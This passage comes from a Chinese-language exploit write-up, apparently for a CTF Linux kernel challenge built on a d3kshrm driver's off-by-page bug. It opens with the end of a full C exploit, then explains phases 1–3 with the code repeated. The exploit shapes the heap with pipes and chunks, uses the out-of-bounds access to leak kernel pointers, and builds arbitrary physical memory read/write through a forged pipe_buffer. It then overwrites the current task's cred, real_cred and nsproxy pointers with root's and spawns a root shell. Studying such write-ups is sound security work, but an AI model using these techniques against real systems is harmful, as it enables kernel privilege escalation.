    fake_pipe_buf.offset = page_offset;
    fake_pipe_buf.len = 0xfff;
    memcpy(leak_data, &fake_pipe_buf, sizeof(struct pipe_buffer));
    read(pipe_fds[second_victim_pipe_idx][0], output_buffer, read_length);
}

/**
 * arbitrary_phys_write - Write arbitrary physical memory through pipe primitive
 * @target_page: Physical page address
 * @page_offset: Offset within target page
 * @input_data: Source buffer containing write data
 * @write_length: Number of bytes to write
 */
void arbitrary_phys_write(uint64_t target_page, uint32_t page_offset,
                          void *input_data, uint64_t write_length) {
    fake_pipe_buf.page = (struct page *)target_page;
    fake_pipe_buf.offset = page_offset;
    fake_pipe_buf.len = 0;
    memcpy(leak_data, &fake_pipe_buf, sizeof(struct pipe_buffer));
    write(pipe_fds[second_victim_pipe_idx][1], input_data, write_length);
}

/*==========================================================================*
 * KERNEL ADDRESS RESOLUTION
 *==========================================================================*/

/**
 * find_vmemmap_base - Locate vmemmap base via physical memory scanning
 *
 * Strategy: Scan backward from leaked page pointer to find kernel code region
 */
void find_vmemmap_base(void) {
    // Start scan from page-aligned address derived from leaked page pointer
    vmemmap_base = (size_t)fake_pipe_buf.page & 0xfffffffff0000000;
    size_t round = 0;

    for (round = 0;; round++) {
        size_t candidate_value[4] = {0};
        arbitrary_phys_read((vmemmap_base + 0x2740), 0, candidate_value, 0x10);

        // Verify candidate matches secondary_startup_64 signature and kernel base constraints
        if (candidate_value[0] > kernel_base &&
            ((candidate_value[0] & 0xfff) == (SECONDARY_STARTUP_64 & 0xfff))) {
            log.success("Located secondary_startup_64 signature in physmem, addr=0x%lx",
                        candidate_value[0]);
            break;
        }
        vmemmap_base -= 0x10000000;  // Step backward through physical memory regions
    }
    log.success("Successfully mapped vmemmap_base address: 0x%lx", vmemmap_base);
}

/*==========================================================================*
 * TASK_STRUCT ENUMERATION
 *==========================================================================*/

/**
 * scan_for_task_structs - Locate current and root task_structs in physical memory
 *
 * Strategy: Scan physical pages for process comm strings and validate task_struct fields
 */
void scan_for_task_structs(void) {
    size_t round = 0;
    int current_task_found = 0;
    int root_task_found = 0;
    char page_content_buffer[0x1000] = {0};
    size_t *current_comm_ptr;
    size_t *root_comm_ptr;

    // Set unique process identifier for reliable memory scanning
    prctl(PR_SET_NAME, "pwn4kernel");
    log.info("Scanning physical memory pages to identify active task_struct instances");

    for (round = 0;; round++) {
        memset(page_content_buffer, 0, 0x1000);
        arbitrary_phys_read((vmemmap_base + round * 0x40), 0, page_content_buffer, 0xf00);

        current_comm_ptr = (size_t *)memmem(page_content_buffer, 0xf00, "pwn4kernel", 10);
        root_comm_ptr = (size_t *)memmem(page_content_buffer, 0xf00, "swapper", 7);

        // Validate current task_struct by checking critical field integrity
        if (current_comm_ptr && (current_comm_ptr[-2] > 0xffff888000000000)   // cred validity
            && (current_comm_ptr[-3] > 0xffff888000000000)                    // real_cred validity
            && (current_comm_ptr[-59] > 0xffff888000000000)                   // real_parent validity
            && (current_comm_ptr[-58] > 0xffff888000000000)) {                // parent validity
            current_task_found++;
            parent_task_addr = current_comm_ptr[-59];  // Capture parent pointer

            // Derive task_struct address from ptraced field pointer
            current_task_addr = current_comm_ptr[-52] - 0x5d8;

            // Calculate page_offset_base from physical memory mapping
            page_offset_base = (current_comm_ptr[-52] & 0xfffffffffffff000) - round * 0x1000;
            page_offset_base &= 0xfffffffff0000000;

            current_task_page_addr = (vmemmap_base + round * 0x40);
            log.success("[Round %d] Mapped current task_struct to phys page: 0x%lx", round,
                        current_task_page_addr);
            log.success("[Round %d] Resolved page_offset_base mapping addr: 0x%lx", round,
                        page_offset_base);
            log.success("[Round %d] Captured parent task_struct virt addr: 0x%lx", round,
                        parent_task_addr);
            log.success("[Round %d] Resolved current task_struct virt addr: 0x%lx", round,
                        current_task_addr);
            if (current_task_found && root_task_found)
                break;
        }

        // Validate root task_struct (swapper) by field integrity
        if (root_comm_ptr && (root_comm_ptr[-2] > 0xffff888000000000)   // cred validity
            && (root_comm_ptr[-3] > 0xffff888000000000)                // real_cred validity
            && (root_comm_ptr[-59] > 0xffff888000000000)               // real_parent validity
            && (root_comm_ptr[-58] > 0xffff888000000000)) {            // parent validity

            if (root_task_found)
                continue;

            root_task_found++;
            root_cred_addr = root_comm_ptr[-3];     // Capture root cred pointer
            root_task_addr = root_comm_ptr[-52] - 0x5d8;  // Derive root task address
            root_nsproxy_addr = root_comm_ptr[9];   // Capture root nsproxy pointer
            root_task_page_addr = (vmemmap_base + round * 0x40);
            log.success("[Round %d] Mapped root swapper task_struct to phys page: 0x%lx", round,
                        root_task_page_addr);
            log.success("[Round %d] Resolved root task_struct virtual addr: 0x%lx", round,
                        root_task_addr);
            log.success("[Round %d] Captured root credentials virt addr: 0x%lx", round,
                        root_cred_addr);
            log.success("[Round %d] Resolved root nsproxy virt addr: 0x%lx", round,
                        root_nsproxy_addr);
            if (current_task_found && root_task_found)
                break;
        }
    }
}

/*==========================================================================*
 * PRIVILEGE ESCALATION
 *==========================================================================*/

/**
 * overwrite_cred_with_root - Replace current task credentials with root credentials
 *
 * Strategy: Overwrite current task_struct's cred/real_cred pointers to point to root's
 */
void overwrite_cred_with_root(void) {
    size_t round = 0;
    char task_copy_buffer[0x1000] = {0};
    size_t *current_comm_field_ptr;

    log.info("Modifying current task_struct credentials to gain root privileges");
    for (round = 0;; round++) {
        memset(task_copy_buffer, 0, 0x1000);
        arbitrary_phys_read((current_task_page_addr + round * 0x40), 0, task_copy_buffer, 0xf00);

        current_comm_field_ptr = (size_t *)memmem(task_copy_buffer, 0xf00, "pwn4kernel", 10);

        // Validate task_struct integrity before modification
        if (current_comm_field_ptr && (current_comm_field_ptr[-2] > 0xffff888000000000) &&
            (current_comm_field_ptr[-3] > 0xffff888000000000) &&
            (current_comm_field_ptr[-59] > 0xffff888000000000) &&
            (current_comm_field_ptr[-58] > 0xffff888000000000)) {
            // Replace credential pointers with root equivalents
            current_comm_field_ptr[-2] = root_cred_addr;  // Overwrite task->cred
            current_comm_field_ptr[-3] = root_cred_addr;  // Overwrite task->real_cred
            current_comm_field_ptr[9] = root_nsproxy_addr;  // Overwrite task->nsproxy

            // Commit modified task_struct to physical memory
            arbitrary_phys_write((current_task_page_addr + round * 0x40), 0, task_copy_buffer, 0xf00);

            log.success("[Round %d] Credential patching complete at phys page: 0x%lx", round,
                        current_task_page_addr);
            break;
        }
    }
}

/*==========================================================================*
 * EXPLOIT PHASE FUNCTIONS
 *==========================================================================*/

/**
 * phase_environment_bootstrap - Initialize exploit environment
 * Description: Open device file descriptors for the exploit
 */
int phase_environment_bootstrap(void) {
    log.info("===========================================================");
    log.info("PHASE 1: ENVIRONMENT INITIALIZATION & DEVICE SETUP         ");
    log.info("===========================================================");

    log.info("Initializing exploit environment");
    bind_core(0);
    save_status();

    log.info("Opening " DEVICE_PATH " device file");
    for (int i = 0; i < CHUNK_COUNT * 2; i++) {
        dev_fd[i] = open(DEVICE_PATH, O_RDWR);
        if (dev_fd[i] < 0) {
            log.error("Failed to open device file");
            return -1;
        }
    }

    return 0;
}

/**
 * phase_heap_fengshui - Prepare heap layout for exploitation
 * Description: Create pipes, spray order-3 pages, free odd/even pages, and allocate vulnerable chunks
 */
int phase_heap_fengshui(void) {
    log.info("===========================================================");
    log.info("PHASE 2: HEAP SHAPING & MEMORY LAYOUT MANIPULATION         ");
    log.info("===========================================================");

    log.info("Creating %d pipes for heap shaping", MAX_PIPE_COUNT);
    for (int i = 0; i < MAX_PIPE_COUNT; i++) {
        create_pipe(i);
    }

    log.info("Spraying %d order-3 pages via chunk allocation", CHUNK_COUNT);
    for (int i = 0; i < CHUNK_COUNT; i++) {
        chunk_ids[i] = create_chunk(dev_fd[0], 0);
    }

    log.info("Freeing odd-indexed order-3 pages");
    for (int i = 1; i < CHUNK_COUNT; i += 2) {
        delete_chunk(dev_fd[0], chunk_ids[i]);
    }

    log.info("Spraying kmalloc-4k pipe buffers into freed odd slots");
    for (int i = 0; i < MAX_PIPE_COUNT; i++) {
        resize_pipe_buffer(i, PIPE_BUF_SIZE);
    }

    log.info("Freeing even-indexed order-3 pages");
    for (int i = 0; i < CHUNK_COUNT; i += 2) {
        delete_chunk(dev_fd[0], chunk_ids[i]);
    }

    log.info("Allocating vuln chunks in freed even slots");
    for (int i = 0; i < CHUNK_COUNT; i++) {
        chunk_ids[i] = create_chunk(dev_fd[i], VULN_CHUNK_SIZE);
    }

    return 0;
}

/**
 * phase_prepare_oob_detection - Prepare for OOB read detection
 * Description: Write magic numbers and indices to pipes for identification,
 *              then trigger d3kshrm_mmap via mmap()/mremap() to establish
 *              memory layout for OOB read detection
 */
int phase_prepare_oob_detection(void) {
    log.info("===========================================================");
    log.info("PHASE 3: PREPARING OOB READ DETECTION                     ");
    log.info("===========================================================");

    log.info("Writing magic numbers and indices to pipes for identification");
    for (int i = 0; i < MAX_PIPE_COUNT; i++) {
        pipe_buffer_data[0] = *(size_t *)"BinRacer";  // Magic number for validation
        pipe_buffer_data[1] = i;                      // Pipe index for identification
        write(pipe_fds[i][1], pipe_buffer_data, 0x10);
    }

    log.info("Triggering d3kshrm_mmap and extending mapping to establish overlap");
    for (int i = 0; i < CHUNK_COUNT; i++) {
        bind_chunk(dev_fd[i], chunk_ids[i]);
        victim_map[i] =
            mmap(NULL, MMAP_SIZE, PROT_READ | PROT_WRITE, MAP_SHARED, dev_fd[i], 0);
        if (victim_map[i] == MAP_FAILED) {
            log.error("mmap() failed on chunk %d", i);
            return -1;
        }

        victim_map[i] = mremap(victim_map[i], MMAP_SIZE, MREMAP_SIZE, MREMAP_MAYMOVE);
        if (victim_map[i] == MAP_FAILED) {
            log.error("mremap() failed to extend mapping for chunk %d", i);
            return -1;
        }
    }

    return 0;
}

/**
 * phase_oob_detection_via_page_fault - Detect pipe overlap via page faults
 * Description: Trigger page faults to detect magic number 0x72656361526e6942 ("BinRacer")
 */
int phase_oob_detection_via_page_fault(void) {
    log.info("===========================================================");
    log.info("PHASE 4: DETECTING OOB READ VIA PAGE FAULTS                ");
    log.info("===========================================================");

    log.info("Triggering page faults to detect magic number 0x72656361526e6942 (BinRacer)");
    for (int i = 0; i < CHUNK_COUNT; i++) {
        log.debug("Testing chunk %d", i);
        leak_data = (size_t *)(victim_map[i] + 0x1000 * 0x200);
        if (leak_data[0] == 0x72656361526e6942) {  // "BinRacer" in little endian
            victim_chunk_idx = i;
            victim_pipe_idx = ((size_t *)(victim_map[i] + 0x1000 * 0x200))[1];
            log.success("Found Victim pipe: %d, Victim chunk: %d", victim_pipe_idx,
                        victim_chunk_idx);
            hex_dump("Victim pipe data", leak_data, 0x30);
            break;
        }
    }

    if (victim_pipe_idx == -1) {
        log.error("No victim pipe detected! Exploit failed at initial OOB detection");
        return -1;
    }

    return 0;
}

/**
 * phase_cleanup_and_order0_spray - Clean victim pipe and spray order-0 objects
 * Description: Close victim pipe, release its page via munmap, spray kmalloc-192/order-0,
 *              free device chunk, and re-spray driver chunks to occupy freed memory
 */
int phase_cleanup_and_order0_spray(void) {
    log.info("===========================================================");
    log.info("PHASE 5: CLEANUP & ORDER-0 HEAP SPRAY                      ");
    log.info("===========================================================");

    log.info("Cleaning victim pipe and preparing for second stage spray");
    close(pipe_fds[victim_pipe_idx][0]);
    close(pipe_fds[victim_pipe_idx][1]);
    munmap(victim_map[victim_chunk_idx], MREMAP_SIZE);

    log.info("Spraying kmalloc-192/order-0 objects via pipe buffer resize");
    for (int i = 0; i < MAX_PIPE_COUNT; i++) {
        if (i == victim_pipe_idx)
            continue;
        resize_pipe_buffer(i, 0x1000 * 4);
    }

    log.info("Freeing victim device chunk for reallocation");
    unbind_chunk(dev_fd[victim_chunk_idx], chunk_ids[victim_chunk_idx]);
    delete_chunk(dev_fd[victim_chunk_idx], chunk_ids[victim_chunk_idx]);

    log.info("Spraying driver chunks to occupy freed memory regions");
    for (int i = CHUNK_COUNT; i < CHUNK_COUNT * 2; i++) {
        chunk_ids[i] = create_chunk(dev_fd[i], VULN_CHUNK_SIZE);
    }

    log.info("Triggering d3kshrm_mmap and extending mapping for second stage");
    for (int i = CHUNK_COUNT; i < CHUNK_COUNT * 2; i++) {
        bind_chunk(dev_fd[i], chunk_ids[i]);
        victim_map[i] =
            mmap(NULL, MMAP_SIZE, PROT_READ | PROT_WRITE, MAP_SHARED, dev_fd[i], 0);
        if (victim_map[i] == MAP_FAILED) {
            log.error("mmap() failed on chunk %d", i);
            return -1;
        }

        victim_map[i] = mremap(victim_map[i], MMAP_SIZE, MREMAP_SIZE, MREMAP_MAYMOVE);
        if (victim_map[i] == MAP_FAILED) {
            log.error("mremap() failed to extend mapping for chunk %d", i);
            return -1;
        }
    }

    return 0;
}

/**
 * phase_kernel_pointer_leak_via_oob - Leak kernel pointers via OOB read
 * Description: Use driver page fault to read pipe_buffer structure, leaking kernel page
 *              and function pointer addresses
 */
int phase_kernel_pointer_leak_via_oob(void) {
    log.info("===========================================================");
    log.info("PHASE 6: KERNEL POINTER LEAK VIA OOB READ                  ");
    log.info("===========================================================");

    log.info("Scanning for kernel pointers in second victim chunk");
    for (int i = CHUNK_COUNT; i < CHUNK_COUNT * 2; i++) {
        log.debug("Testing chunk %d", i);
        leak_data = (size_t *)(victim_map[i] + 0x1000 * 0x200);
        if (leak_data[0] > vmemmap_base && leak_data[2] > kernel_base) {
            memset(&fake_pipe_buf, 0, sizeof(struct pipe_buffer));
            memcpy(&fake_pipe_buf, leak_data, sizeof(struct pipe_buffer));
            second_victim_chunk_idx = i;
            kernel_offset = leak_data[2] - ANON_PIPE_BUF_OPS;
            kernel_base += kernel_offset;
            log.success("Found Second Victim chunk: %d", second_victim_chunk_idx);
            log.success("Leaked pipe_buffer->page kernel pointer: 0x%lx", leak_data[0]);
            log.success("Leaked pipe_buffer->ops(anon_pipe_buf_ops) function pointer: 0x%lx",
                        leak_data[2]);
            log.success("kernel base address: 0x%lx", kernel_base);
            log.success("kernel ASLR offset delta: 0x%lx", kernel_offset);
            hex_dump("Leaked pipe_buffer structure", leak_data, 0x30);
            break;
        }
    }

    if (second_victim_chunk_idx == -1) {
        log.error("No second victim pipe detected! Kernel pointer leak failed");
        return -1;
    }

    return 0;
}

/**
 * phase_arbitrary_phys_rw_primitive - Establish arbitrary physical R/W primitive
 * Description: Modify target pipe_buffer->offset to skip magic number, then identify
 *              correct pipe for arbitrary physical memory operations
 */
int phase_arbitrary_phys_rw_primitive(void) {
    log.info("===========================================================");
    log.info("PHASE 7: ARBITRARY PHYSICAL MEMORY R/W PRIMITIVE           ");
    log.info("===========================================================");

    log.info("Configuring arbitrary physical memory read/write primitive");
    fake_pipe_buf.offset = 0x8;  // Skip magic number to identify correct pipe
    memcpy(leak_data, &fake_pipe_buf, sizeof(struct pipe_buffer));

    log.info("Scanning pipes to identify target for arbitrary R/W operations");
    for (int i = 0; i < MAX_PIPE_COUNT; i++) {
        if (i == victim_pipe_idx)
            continue;
        size_t magic = 0;
        read(pipe_fds[i][0], &magic, 0x8);
        if (magic != 0x72656361526e6942) {  // Check for "BinRacer" magic
            second_victim_pipe_idx = i;
            log.success("Found target pipe for arbitrary R/W: %d", second_victim_pipe_idx);
            break;
        }
    }

    if (second_victim_pipe_idx == -1) {
        log.error("Failed to locate target pipe for arbitrary R/W operations");
        return -1;
    }

    return 0;
}

/**
 * phase_kernel_memory_scanning - Scan physical memory for kernel structures
 * Description: Find vmemmap_base and locate current/root task_structs
 */
int phase_kernel_memory_scanning(void) {
    log.info("===========================================================");
    log.info("PHASE 8: KERNEL MEMORY SCANNING & STRUCTURE LOCALIZATION   ");
    log.info("===========================================================");

    log.info("Initiating kernel memory exploration phase");
    find_vmemmap_base();
    scan_for_task_structs();

    return 0;
}

/**
 * phase_privilege_escalation - Escalate privileges to root
 * Description: Overwrite current task credentials with root credentials and spawn shell
 */
int phase_privilege_escalation(void) {
    log.info("===========================================================");
    log.info("PHASE 9: CREDENTIAL OVERWRITE & PRIVILEGE ESCALATION       ");
    log.info("===========================================================");

    overwrite_cred_with_root();
    get_root_shell();
    return 0;
}

/**
 * phase_resource_cleanup - Clean up resources
 */
void phase_resource_cleanup(void) {
    log.info("===========================================================");
    log.info("PHASE 10: RESOURCE CLEANUP & FINALIZATION                  ");
    log.info("===========================================================");

    log.info("Performing resource cleanup");

    // Close device file descriptors
    for (int i = 0; i < CHUNK_COUNT * 2; i++) {
        if (dev_fd[i] > 0) {
            close(dev_fd[i]);
        }
    }

    // Unmap victim mappings
    for (int i = 0; i < CHUNK_COUNT * 2; i++) {
        if (victim_map[i] != MAP_FAILED && victim_map[i] != NULL) {
            munmap(victim_map[i], MREMAP_SIZE);
        }
    }

    // Close pipe file descriptors
    for (int i = 0; i < MAX_PIPE_COUNT; i++) {
        if (pipe_fds[i][0] > 0) {
            close(pipe_fds[i][0]);
        }
        if (pipe_fds[i][1] > 0) {
            close(pipe_fds[i][1]);
        }
    }

    log.info("Cleanup completed");
}

/*==========================================================================*
 * MAIN EXPLOIT ORCHESTRATION
 *==========================================================================*/

int main() {
    //==================================================================
    // PHASE 1: ENVIRONMENT BOOTSTRAP
    //==================================================================
    if (phase_environment_bootstrap()) goto cleanup;
    puts("");

    //==================================================================
    // PHASE 2: HEAP FENGSHUI PREPARATION
    //==================================================================
    if (phase_heap_fengshui()) goto cleanup;
    puts("");

    //==================================================================
    // PHASE 3: PREPARING OOB READ DETECTION
    //==================================================================
    if (phase_prepare_oob_detection()) goto cleanup;
    puts("");

    //==================================================================
    // PHASE 4: OOB DETECTION VIA PAGE FAULTS
    //==================================================================
    if (phase_oob_detection_via_page_fault()) goto cleanup;
    puts("");

    //==================================================================
    // PHASE 5: CLEANUP & ORDER-0 HEAP SPRAY
    //==================================================================
    if (phase_cleanup_and_order0_spray()) goto cleanup;
    puts("");

    //==================================================================
    // PHASE 6: KERNEL POINTER LEAK VIA OOB READ
    //==================================================================
    if (phase_kernel_pointer_leak_via_oob()) goto cleanup;
    puts("");

    //==================================================================
    // PHASE 7: ARBITRARY PHYSICAL MEMORY R/W PRIMITIVE
    //==================================================================
    if (phase_arbitrary_phys_rw_primitive()) goto cleanup;
    puts("");

    //==================================================================
    // PHASE 8: KERNEL MEMORY SCANNING & STRUCTURE LOCALIZATION
    //==================================================================
    if (phase_kernel_memory_scanning()) goto cleanup;
    puts("");

    //==================================================================
    // PHASE 9: PRIVILEGE ESCALATION & ROOT ACCESS
    //==================================================================
    if (phase_privilege_escalation()) goto cleanup;
    puts("");

cleanup:
    //==================================================================
    // PHASE 10: RESOURCE CLEANUP
    //==================================================================
    phase_resource_cleanup();
    return 0;
}
```

### 5-1. 整体流程架构

在第三章成功验证了Off-by-Page边界检查漏洞的基础上，本章进一步展示了如何利用该漏洞构建强大的任意物理内存读写原语，并最终实现权限提升验证。整个进阶验证过程分为十个逻辑阶段，从基础的OOB读取到最终的权限提升，形成完整的验证链。

**核心进阶思路**：在已获得的越界访问能力基础上，通过精心设计的多阶段内存操作，逐步提升访问能力，最终构建任意物理内存读写原语，实现对关键内核数据结构的定位和修改。


```mermaid
flowchart TD
    Start[开始进阶验证] --> Phase1[第一阶段: 环境初始化]
    Phase1 --> Phase2[第二阶段: 堆布局构造]
    Phase2 --> Phase3[第三阶段: OOB检测准备]
    Phase3 --> Phase4[第四阶段: OOB检测执行]
    Phase4 --> Phase5[第五阶段: 清理与二次喷洒]
    Phase5 --> Phase6[第六阶段: 内核指针泄漏]
    Phase6 --> Phase7[第七阶段: 物理内存R/W原语]
    Phase7 --> Phase8[第八阶段: 内核内存扫描]
    Phase8 --> Phase9[第九阶段: 权限提升验证]
    Phase9 --> Phase10[第十阶段: 资源清理]
    Phase10 --> End[验证完成]
```

#### 5-1-1. 各阶段技术目标

**第一阶段：环境初始化**（Phase 1）

- 建立稳定的执行环境
- 准备必要的文件描述符资源
- 为复杂内存操作建立基础

**第二阶段：堆布局构造**（Phase 2）

- 通过交替分配释放塑造特定内存布局
- 实现pages数组与pipe_buffer交错分布
- 为越界访问创造目标页面条件

**第三阶段：OOB检测准备**（Phase 3）

- 在管道缓冲区中写入标识数据
- 建立用户空间内存映射
- 为OOB检测建立观察窗口

**第四阶段：OOB检测执行**（Phase 4）

- 触发边界检查漏洞
- 验证是否成功访问到目标pipe_buffer
- 记录成功的chunk和管道索引

**第五阶段：清理与二次喷洒**（Phase 5）

- 清理第一阶段资源
- 重新构造内存布局
- 为内核指针泄漏准备条件

**第六阶段：内核指针泄漏**（Phase 6）

- 通过OOB读取泄漏内核指针
- 计算内核地址空间偏移
- 建立内核地址映射关系

**第七阶段：物理内存R/W原语**（Phase 7）

- 构建任意物理内存读写能力
- 建立稳定的内存访问通道
- 验证原语的有效性

**第八阶段：内核内存扫描**（Phase 8）

- 扫描物理内存定位关键结构
- 查找当前进程和root进程task_struct
- 建立进程数据结构映射

**第九阶段：权限提升验证**（Phase 9）

- 修改当前进程凭证
- 验证权限提升效果
- 获取root权限shell

**第十阶段：资源清理**（Phase 10）

- 释放所有分配的资源
- 确保系统状态恢复
- 避免资源泄漏

#### 5-1-2. 关键数据结构扩展

在进阶验证中，需要扩展第三章的数据结构，以支持更复杂的操作。虽然数组声明为`MAX_PIPE_COUNT * 2`，但实际只使用前MAX_PIPE_COUNT（240）个管道，这为内存操作提供了足够的缓冲区。

```c
// 扩展的全局数据结构
int pipe_fds[MAX_PIPE_COUNT * 2][2];   // 管道文件描述符数组
int chunk_ids[CHUNK_COUNT * 2];        // chunk索引数组
int dev_fd[CHUNK_COUNT * 2];           // 设备文件描述符数组
void *victim_map[CHUNK_COUNT * 2];     // 内存映射地址数组

// 关键状态变量
int victim_pipe_idx = -1;              // 目标管道索引
int victim_chunk_idx = -1;             // 目标chunk索引
int second_victim_pipe_idx = -1;       // 第二目标管道索引
int second_victim_chunk_idx = -1;      // 第二目标chunk索引

// 内核地址信息
size_t vmemmap_base;                   // vmemmap基地址
size_t page_offset_base;               // page_offset_base
size_t kernel_base;                    // 内核基地址
size_t kernel_offset;                  // 内核偏移量

// 进程结构信息
size_t current_task_addr;              // 当前进程task_struct虚拟地址
size_t current_task_page_addr;         // 当前进程物理页面地址
size_t parent_task_addr;               // 父进程task_struct地址
size_t root_task_addr;                 // root进程task_struct地址
size_t root_task_page_addr;            // root进程物理页面地址
size_t root_cred_addr;                 // root凭证地址
size_t root_nsproxy_addr;              // root命名空间代理地址
```

### 5-2. 第一阶段：环境初始化

在开始复杂的内存操作之前，必须建立一个稳定、可控的执行环境。内核内存分配具有高度的随机性和并发性，这对精确构造内存布局构成了挑战。本阶段的目标是扩展基础资源，为后续的多阶段验证做好准备。

首先保存当前进程的完整执行状态，为可能的异常恢复做准备。通过内联汇编保存CS、SS、RSP和RFLAGS寄存器值。这些寄存器定义了进程的执行上下文，保存它们为异常恢复提供了基础。

接着将当前进程绑定到CPU 0，减少多核环境下的并发内存分配干扰。通过调用`sched_setaffinity`系统调用实现CPU绑定，这提高了内存布局的可预测性和稳定性，避免了缓存一致性问题和TLB刷新带来的不确定性。

与第三章不同，进阶验证需要更多的资源。需要打开64个设备文件描述符（`CHUNK_COUNT * 2`），每个描述符对应一个chunk实例。这个数量经过精心计算，既要确保有足够的chunk来支持多阶段验证，又要避免过度消耗系统资源。

```c
int phase_environment_bootstrap(void) {
    log.info("===========================================================");
    log.info("PHASE 1: ENVIRONMENT INITIALIZATION & DEVICE SETUP         ");
    log.info("===========================================================");

    log.info("Initializing exploit environment");
    bind_core(0);
    save_status();

    log.info("Opening " DEVICE_PATH " device file");
    for (int i = 0; i < CHUNK_COUNT * 2; i++) {
        dev_fd[i] = open(DEVICE_PATH, O_RDWR);
        if (dev_fd[i] < 0) {
            log.error("Failed to open device file");
            return -1;
        }
    }

    return 0;
}
```

### 5-3. 第二阶段：堆布局构造

堆布局构造是进阶验证的基础，本阶段的目标是在内核地址空间中创建特定的内存分布模式，为后续的越界访问创造条件。通过交替分配和释放操作，塑造pages数组与pipe_buffer交错分布的内存布局。

首先创建240个管道对，为后续的内存操作建立基础结构。然后通过d3kshrm驱动模块创建32个chunk实例，每个chunk包含一个pages数组。设置`page_count=0`，意味着只分配chunk管理结构和pages数组，不分配实际物理页面。

接着执行交替释放和重新分配策略，创建交错分布的内存布局。这种内存布局是后续越界访问的基础条件。

```c
int phase_heap_fengshui(void) {
    log.info("===========================================================");
    log.info("PHASE 2: HEAP SHAPING & MEMORY LAYOUT MANIPULATION         ");
    log.info("===========================================================");

    log.info("Creating %d pipes for heap shaping", MAX_PIPE_COUNT);
    for (int i = 0; i < MAX_PIPE_COUNT; i++) {
        create_pipe(i);
    }

    log.info("Spraying %d order-3 pages via chunk allocation", CHUNK_COUNT);
    for (int i = 0; i < CHUNK_COUNT; i++) {
        chunk_ids[i] = create_chunk(dev_fd[0], 0);
    }

    log.info("Freeing odd-indexed order-3 pages");
    for (int i = 1; i < CHUNK_COUNT; i += 2) {
        delete_chunk(dev_fd[0], chunk_ids[i]);
    }

    log.info("Spraying kmalloc-4k pipe buffers into freed odd slots");
    for (int i = 0; i < MAX_PIPE_COUNT; i++) {
        resize_pipe_buffer(i, PIPE_BUF_SIZE);
    }

    log.info("Freeing even-indexed order-3 pages");
    for (int i = 0; i < CHUNK_COUNT; i += 2) {
        delete_chunk(dev_fd[0], chunk_ids[i]);
    }

    log.info("Allocating vuln chunks in freed even slots");
    for (int i = 0; i < CHUNK_COUNT; i++) {
        chunk_ids[i] = create_chunk(dev_fd[i], VULN_CHUNK_SIZE);
    }

    return 0;
}
```

**第二阶段内存布局变化**：

<pre>
堆布局构造过程：
初始状态: 创建32个chunk，每个pages数组占4KB页
         ┌───┬───┬───┬───┬───┬───┬───┬───┐
         │P0 │P1 │P2 │P3 │P4 │P5 │P6 │P7 │ ... (共32页)
         └───┴───┴───┴───┴───┴───┴───┴───┘
         P0-P31: 32个pages数组页

释放奇数页: 创建16个空闲区域
         ┌───┬───┬───┬───┬───┬───┬───┬───┐
         │P0 │F1 │P2 │F3 │P4 │F5 │P6 │F7 │
         └───┴───┴───┴───┴───┴───┴───┴───┘
         P0,P2,...: 保留的偶数索引页
         F1,F3,...: 空闲的奇数索引页

管道缓冲区填充: 空闲区域被pipe_buffer占用
         ┌───┬───┬───┬───┬───┬───┬───┬───┐
         │P0 │B1 │P2 │B3 │P4 │B5 │P6 │B7 │
         └───┴───┴───┴───┴───┴───┴───┴───┘
         B1,B3,...: pipe_buffer页

释放偶数页: 为漏洞chunk准备空间
         ┌───┬───┬───┬───┬───┬───┬───┬───┐
         │F0 │B1 │F2 │B3 │F4 │B5 │F6 │B7 │
         └───┴───┴───┴───┴───┴───┴───┴───┘
         F0,F2,...: 空闲偶数索引页
         B1,B3,...: pipe_buffer页

最终布局: pages数组与pipe_buffer页交错分布
         ┌───┬───┬───┬───┬───┬───┬───┬───┐
         │C0 │B1 │C2 │B3 │C4 │B5 │C6 │B7 │
         └───┴───┴───┴───┴───┴───┴───┴───┘
         C0,C2,...: 漏洞chunk的pages数组页
         B1,B3,...: pipe_buffer页
</pre>

### 5-4. 第三阶段：OOB检测准备

在完成了基础的内存布局构造后，需要为OOB检测做准备。本阶段的目标是在管道缓冲区中写入标识数据，建立用户空间内存映射，为后续的OOB检测建立观察窗口。

为了能够准确识别通过越界访问读取到的数据，在每个管道缓冲区的前16字节写入特定的标识数据。使用魔数"BinRacer"（0x72656361526e6942）作为标识，后8字节写入管道索引。这样当通过越界访问读取到pipe_buffer数据时，可以通过魔数确认访问成功，并通过索引确定具体的管道。

接着为每个chunk建立用户空间内存映射。首先将chunk绑定到对应的文件描述符，然后通过mmap创建2MB的映射区域，最后使用mremap将映射区域扩展4KB包含越界访问点。这会在用户空间创建一段虚拟地址区域，当访问这段区域时，会触发缺页异常，进而调用d3kshrm模块的fault处理函数。

```c
int phase_prepare_oob_detection(void) {
    log.info("===========================================================");
    log.info("PHASE 3: PREPARING OOB READ DETECTION                     ");
    log.info("===========================================================");

    log.info("Writing magic numbers and indices to pipes for identification");
    for (int i = 0; i < MAX_PIPE_COUNT; i++) {
        pipe_buffer_data[0] = *(size_t *)"BinRacer";  // Magic number for validation
        pipe_buffer_data[1] = i;                      // Pipe index for identification
        write(pipe_fds[i][1], pipe_buffer_data, 0x10);
    }

    log.info("Triggering d3kshrm_mmap and extending mapping to establish overlap");
    for (int i = 0; i < CHUNK_COUNT; i++) {
        bind_chunk(dev_fd[i], chunk_ids[i]);
        victim_map[i] =
            mmap(NULL, MMAP_SIZE, PROT_READ | PROT_WRITE, MAP_SHARED, dev_fd[i], 0);
        if (victim_map[i] == MAP_FAILED) {
            log.error("mmap() failed on chunk %d", i);
            return -1;
        }

        victim_map[i] = mremap(victim_map[i], MMAP_SIZE, MREMAP_SIZE, MREMAP_MAYMOVE);
        if (victim_map[i] == MAP_FAILED) {
            log.error("mremap() failed to extend mapping for chunk %d", i);
            return -1;
        }
    }

    return 0;
}
```

**管道缓冲区标识数据结构**：

<pre>
每个管道缓冲区前16字节布局：
┌─────────────────────────────────────────────────┐
│ 偏移0-7: 魔数"BinRacer" (0x72656361526e6942)     │
│ 偏移8-15: 管道索引 (用于后续识别)                 │
└─────────────────────────────────────────────────┘
</pre>

**第三阶段流程图**：


```mermaid
flowchart TD
    Start[开始OOB检测准备] --> WriteMagic[在管道缓冲区写入标识数据]
    WriteMagic --> BindChunks[绑定chunk到文件描述符]
    BindChunks --> CreateMapping[创建2MB内存映射]
    CreateMapping --> ExtendMapping[扩展映射到2MB+4KB]
    ExtendMapping --> CheckResult{检查映射结果}
    CheckResult -- 成功 --> Complete[OOB检测准备完成]
    CheckResult -- 失败 --> Error[准备失败退出]
```

### 5-5. 第四阶段：OOB检测执行

